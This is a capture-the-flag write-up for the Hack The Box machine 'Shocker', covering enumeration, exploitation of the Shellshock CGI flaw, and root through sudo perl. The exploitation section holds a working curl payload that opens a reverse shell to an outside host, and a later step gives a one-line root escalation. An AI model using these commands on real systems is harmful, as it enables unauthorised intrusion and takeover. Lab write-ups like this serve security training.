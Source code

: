 # Writeup: Shocker

**OS**: 🐧 Linux

**Level**: 🟢 Easy

## 🔎 Enumeration:

Nmap scan:

```shell
nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan $TARGET
```

Result:

```
# Nmap 7.94SVN scan initiated Wed Oct  1 09:04:55 2025 as: nmap -sS -sVC -Pn -vv -T4 -p- -oN nmap_scan 10.129.235.72
Nmap scan report for 10.129.235.72
Host is up, received user-set (0.0071s latency).
Scanned at 2025-10-01 09:04:55 CDT for 15s
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  1 09:05:10 2025 -- 1 IP address (1 host up) scanned in 15.09 seconds
```

On port 80 i found a webserver with a simple website only presenting a image file so i checked it for steganography but i did not found anything so i started a directory bruteforce which gives me a `/cgi-bin/` directory with status code `403`. I started a second directory bruteforce on `/cgi-bin/` and found a `user.sh`.

```shell
gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/combined_words.txt -o gobuster_scan2 -t 30 -x sh

/user.sh              (Status: 200) [Size: 119]
```

At this point i was stucked so i have done some research about the shellshock vulnerability since the machine is themed around it. I found a way to check for the shellshock vulnerabilty with nmap on [HackTricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/cgi.html).

```
nmap shocker.htb -p 80 --script=http-shellshock --script-args uri=/cgi-bin/user.sh

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-01 10:10 CDT
Nmap scan report for shocker.htb (10.129.235.72)
Host is up (0.0073s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
|_      http://seclists.org/oss-sec/2014/q3/685

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

## 💥 Exploitation:

I used `curl` to exploit the shellshock vulnerability, which gives me back a reverse shell as user `shelly`, so i was able to grab the `user.txt` inside the home directory.

```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.10.10/443 0>&1' http://shocker.htb/cgi-bin/user.sh
```

## 🔓 Priviledge Escalation:

I have run the `sudo -l` command which gives me following output:

```
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Since `shocky` is allowed to run `sudo /usr/bin/perl` without providing a password i checked [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo) how to exploit this to gain the `root.txt`.

```shell
sudo perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root && cat root.txt
```

## 💰 Loot:

```shell
# user.txt
7f7441247c5b5212db38e6**********

# root.txt
d52c0d664522e034d35978**********
```